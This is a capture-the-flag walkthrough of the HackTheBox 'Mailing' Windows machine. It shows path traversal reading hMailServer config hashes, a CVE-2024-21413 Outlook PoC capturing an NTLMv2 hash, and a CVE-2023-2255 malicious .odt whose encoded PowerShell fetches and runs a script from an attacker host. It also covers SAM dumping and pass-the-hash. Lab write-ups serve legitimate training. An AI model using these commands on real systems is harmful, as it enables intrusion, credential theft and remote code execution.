



---
tags:
  - hack
  - windows
---
# HackTheBox: [Mailing](https://app.hackthebox.com/machines/Mailing)

> [!tip]- Spoiler Summary
> This Windows machine represents a company's email server, with several related services running on it. Its info-site has an LFI vulnerability which reveals a password for one of the accounts. This allows sending a phishing email to another user who is running a vulnerable version of Outlook, for RCE. PE is possible thanks to a bug in Outlook and the ability to get a privileged user to open it.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Thu May 30 12:26:41 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp -sCV t
Nmap scan report for t (10.10.11.14)
Host is up (0.12s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Mailing
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: IMAP4rev1 IDLE completed CAPABILITY SORT CHILDREN ACL NAMESPACE OK QUOTA IMAP4 RIGHTS=texkA0001
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
|_SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
|_ssl-date: TLS randomness does not represent time
587/tcp   open  smtp          hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
|_SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp   open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
|_SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: IMAP4rev1 IDLE completed CAPABILITY SORT CHILDREN ACL NAMESPACE OK QUOTA IMAP4 RIGHTS=texkA0001
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

#### 80/tcp-http

```console
$ whatweb -a3 mailing.htb
http://mailing.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.14], Microsoft-IIS[10.0], PHP[8.3.3,], Title[Mailing], X-Powered-By[PHP/8.3.3, ASP.NET]
```

```console
$ feroxbuster -k -u http://mailing.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x asp,aspx -d1
...
200      GET        1l        5w       31c http://mailing.htb/download.php
200      GET     1144l     5804w   695263c http://mailing.htb/assets/background_image.jpg
200      GET     2932l    17970w  1477653c http://mailing.htb/assets/mayabendito.jpg
200      GET     2485l    15038w  1505848c http://mailing.htb/assets/ruyalonso.jpg
301      GET        2l       10w      160c http://mailing.htb/assets => http://mailing.htb/assets/
200      GET        0l        0w  6066608c http://mailing.htb/assets/johnsmith.jpg
200      GET      132l      375w     4681c http://mailing.htb/
301      GET        2l       10w      160c http://mailing.htb/Assets => http://mailing.htb/Assets/
301      GET        2l       10w      166c http://mailing.htb/instructions => http://mailing.htb/instructions/
...
[####################] - 13m   262977/262977  0s      found:37      errors:22
```



The PDF file `instructions.pdf` has user guidance for configuring various mail clients.



I glanced over the document and didn't see anything particularly interesting, no default credentials, overall it looks pretty boring.

```console
$ exiftool instructions.pdf
ExifTool Version Number         : 12.76
File Name                       : instructions.pdf
Directory                       : .
File Size                       : 1705 kB
File Modification Date/Time     : 2024:05:30 12:28:02-06:00
File Access Date/Time           : 2024:05:30 12:28:23-06:00
File Inode Change Date/Time     : 2024:05:30 12:28:19-06:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 16
Language                        : es
Tagged PDF                      : Yes
XMP Toolkit                     : 3.1-701
Producer                        : Microsoft® Word para Microsoft 365
Creator                         : Ruy Alonso Fernández
Creator Tool                    : Microsoft® Word para Microsoft 365
Create Date                     : 2024:03:11 18:46:08+01:00
Modify Date                     : 2024:03:11 18:46:08+01:00
Document ID                     : uuid:8E915C28-9456-4488-BB12-8E3445231916
Instance ID                     : uuid:8E915C28-9456-4488-BB12-8E3445231916
Author                          : Ruy Alonso Fernández
```

However, the link to download the PDF is `/download.php?file=instructions.pdf` so maybe there's an LFI possible.

Indeed there is:

```console
$ curl -s http://mailing.htb/download.php?file=../../windows/system32/drivers/etc/hosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host
# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
127.0.0.1       mailing.htb
```

I was hoping to capture a hash by feeding an SMB share to the LFI, but had no luck. Eventually I discovered a default file location for one of the other installed services which has some credentials:

```console
$ curl -s http://mailing.htb/download.php?file=../../program+files+(x86)/hmailserver/bin/hmailserver.ini
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```



Not sure if that's a real password or just a useless sample/default. Let's try:

```console
$ telnet t 110
Trying 10.10.11.14...
Connected to t.
Escape character is '^]'.
+OK POP3
user administrator@mailing.htb
+OK Send your password
pass homenetworkingadministrator
+OK Mailbox locked and ready
list
+OK 0 messages (0 octets)
.
quit
+OK POP3 server saying goodbye...
Connection closed by foreign host.
```

So, I have access to a valid mail account. How can I use that to exploit one of the other services?

## RCE

CVE-2024-21413 is an RCE exploit in Microsoft Outlook. There's a [PoC for CVE-2024-21413](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability) available.

I'll use `maya@mailing.htb` as that's the one valid address (besides `administrator`) that I have, thanks to `instructions.pdf`.

```console
$ python ./CVE-2024-21413.py --username administrator@mailing.htb --password homenetworkingadministrator --server mailing.htb --port 587 --subject "Ouch!" --url '\\10.10.14.2\ouch' --sender administrator@mailing.htb --recipient maya@mailing.htb
CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de
✅ Email sent successfully.
```

I sent a copy of the PoC to the `administrator` account so I can see what it looks like. Here's the raw message:

```console
Return-Path: administrator@mailing.htb
Received: from [127.0.1.1] (Unknown [10.10.14.2])
        by mailing.htb with ESMTPSA
        (version=TLSv1.2 cipher=ECDHE-RSA-AES256-GCM-SHA384 bits=256)
        ; Thu, 30 May 2024 21:56:07 +0200
Message-ID: <CF4DAEEE-A571-49C6-BB2D-61DC2AD520F5@mailing.htb>
Content-Type: multipart/alternative; boundary="===============4259410807471248541=="
MIME-Version: 1.0
Subject: Ouch!
From: administrator@mailing.htb
To: administrator@mailing.htb
--===============4259410807471248541==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Please read this email in HTML format.
--===============4259410807471248541==
Content-Type: text/html; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
    <html>
    <body>
        <br />
        <h1><a href="file:///\\10.10.14.2\ouch!poc">CVE-2024-21413 PoC.</a></h1>
    </body>
    </html>
```

After a while, I get a hit on `responder`:

```console
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:254f8cb9ac063f6f:D6103EBAFE85BA1E074AB1E06CF62916:0101000000000000003BC7DF98B2DA01A873E1975223405C0000000002000800390057004800480001001E00570049004E002D005200470054004E0032005400510050004C005300500004003400570049004E002D005200470054004E0032005400510050004C00530050002E0039005700480048002E004C004F00430041004C000300140039005700480048002E004C004F00430041004C000500140039005700480048002E004C004F00430041004C0007000800003BC7DF98B2DA0106000400020000000800300030000000000000000000000000200000C1F056054801CBA3B6436A610B538665F8D19BB3DF8B44AE5809C391173C1C240A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000
```

```console
$ evil-winrm -i t -u maya -H D6103EBAFE85BA1E074AB1E06CF62916
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

Hmm, OK. I'll try to crack the hash with `hashcat`.

```console
Dictionary cache hit:
* Filename..: ./rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921527
* Keyspace..: 14344386
MAYA::MAILING:254f8cb9ac063f6f:d6103ebafe85ba1e074ab1e06cf62916:0101000000000000003bc7df98b2da01a873e1975223405c0000000002000800390057004800480001001e00570049004e002d005200470054004e0032005400510050004c005300500004003400570049004e002d005200470054004e0032005400510050004c00530050002e0039005700480048002e004c004f00430041004c000300140039005700480048002e004c004f00430041004c000500140039005700480048002e004c004f00430041004c0007000800003bc7df98b2da0106000400020000000800300030000000000000000000000000200000c1f056054801cba3b6436a610b538665f8d19bb3df8b44ae5809c391173c1c240a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0032000000000000000000:m4y4ng...
```

It works with the password:

```console
$ evil-winrm -i t -u maya -p 'm4y4ng...'
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                                  State
============================= ============================================ =======
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Enabled
SeUndockPrivilege             Quitar equipo de la estaci¢n de acoplamiento Enabled
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Enabled
SeTimeZonePrivilege           Cambiar la zona horaria                      Enabled
*Evil-WinRM* PS C:\Users\maya\Documents> type ../Desktop/user.txt
ff2bfc...
```

Why does it work with the password but not the hash?

## PE

```text
PS C:\Program Files\LibreOffice> type .\readmes\readme_en-US.txt
======================================================================
LibreOffice 7.4 ReadMe
======================================================================
```

User `maya` has write access to the "Important Documents" folder. The exploit above can be used to trick a user with admin privileges into opening a document and running an arbitrary command. Here's the likely destination for leaving such a malicious document:

```powershell
PS C:\Important Documents> icacls .
. MAILING\maya:(OI)(CI)(M)
  BUILTIN\Administradores:(I)(OI)(CI)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Usuarios:(I)(OI)(CI)(RX)
  NT AUTHORITY\Usuarios autentificados:(I)(M)
  NT AUTHORITY\Usuarios autentificados:(I)(OI)(CI)(IO)(M)
Successfully processed 1 files; Failed processing 0 files
PS C:\Important Documents>
```

```console
kali@kali:~/htb-mailing/CVE-2023-2255 (main)
$ echo 'iex(iwr http://10.10.14.2/win/ptysh-4200.ps1 -usebasicparsing)' |iconv -t UTF-16LE |base64 -w0
aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHcAaQBuAC8AcAB0AHkAcwBoAC0ANAAyADAAMAAuAHAAcwAxACAALQB1AHMAZQBiAGEAcwBpAGMAcABhAHIAcwBpAG4AZwApAAoA

  kali@kali:~/htb-mailing/CVE-2023-2255 (main)
$ python ./CVE-2023-2255.py --cmd 'powershell -enc aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHcAaQBuAC8AcAB0AHkAcwBoAC0ANAAyADAAMAAuAHAAcwAxACAALQB1AHMAZQBiAGEAcwBpAGMAcABhAHIAcwBpAG4AZwApAAoA' --output ~/srv/x.odt

File /home/kali/srv/x.odt has been created !
```

On the target as user `maya`:

```powershell
PS C:\Important Documents> iwr 10.10.14.2/x.odt -outfile x.odt
```

After a while the file disappears but I don't get a reverse shell, so I figured that it failed for some reason like an outbound packet filter rule or PowerShell execution policy. So I try a more basic approach:

```console
kali@kali:~/htb-mailing/CVE-2023-2255 (main)
$ python ./CVE-2023-2255.py --cmd 'net localgroup administradores maya /add' --output ~/srv/y.odt
File /home/kali/srv/y.odt has been created !
```

This time, after the file disappears, I check the group membership and `maya` is now a member of `Administradores`. ¡Que tuanis!

```console
$ nxc smb -u maya -p 'm4y4ngs4ri' --sam t
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
SMB         10.10.11.14     445    MAILING          [*] Dumping SAM hashes
SMB         10.10.11.14     445    MAILING          Administrador:500:aad3b435...
...
SMB         10.10.11.14     445    MAILING          [+] Added 6 SAM hashes to the database
```

```console
$ nxc smb t -u Administrador -H 31d6cfe0d16ae931b73c59d7e0c089c0
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [-] MAILING\Administrador:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED

$ nxc smb t -u localadmin -H 9aa582783780d1546d62f2d102daefae
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\localadmin:9aa582783780d1546d62f2d102daefae (Pwn3d!)

$ evil-winrm -i t -u localadmin -H 9aa582783780d1546d62f2d102daefae
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\localadmin\Documents> type ../Desktop/root.txt
945888...
```

## Open Questions

Unresolved issues encountered while attacking this target.

- Why does `evil-winrm` login work with the password but _not_ the hash?
